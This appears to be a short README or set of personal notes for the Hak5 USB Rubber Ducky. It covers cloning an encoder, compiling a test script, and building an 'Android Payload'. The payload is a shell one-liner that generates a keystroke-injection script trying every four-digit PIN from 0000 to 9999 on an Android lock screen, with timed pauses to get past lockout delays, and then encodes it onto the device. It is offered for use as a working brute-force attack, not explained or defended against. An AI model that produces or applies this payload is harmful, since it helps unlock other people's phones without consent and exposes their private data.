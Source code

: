 # install

```
git clone https://github.com/jbarcia/ducky && cd ducky
```
```
chmod a+rx /Volumes/USB-Blanca/Hak5/RubberDucky/ducky/duckencode.jar
```
# use 
```
java -jar /Volumes/USB-Blanca/Hak5/RubberDucky/ducky/duckencode.jar -i helloworld.txt -o /Volumes/RubberDucky/inject.bin
```

# Android Payload 

```
port install gsed
```
## Create Dictrionary 
``` 
echo DELAY 5000 > android_brute-force_0000-9999.txt; echo {0000..9999} | xargs -n 1 echo STRING | gsed '0~5 s/$/\nWAIT/g' | gsed '0~1 s/$/\nDELAY 1000\nENTER\nENTER/g' | gsed 's/WAIT/DELAY 5000\nENTER\nDELAY 5000\nENTER\nDELAY 5000\nENTER\nDELAY 5000\nENTER/g' >> android_brute-force_0000-9999.txt
```

## Copy Payload in Rubber Ducky
``` 
java -jar /Volumes/USB-Blanca/Hak5/RubberDucky/ducky/duckencode.jar -i android_brute-force_0000-9999.txt -o /Volumes/RubberDucky/inject.bin
``` 
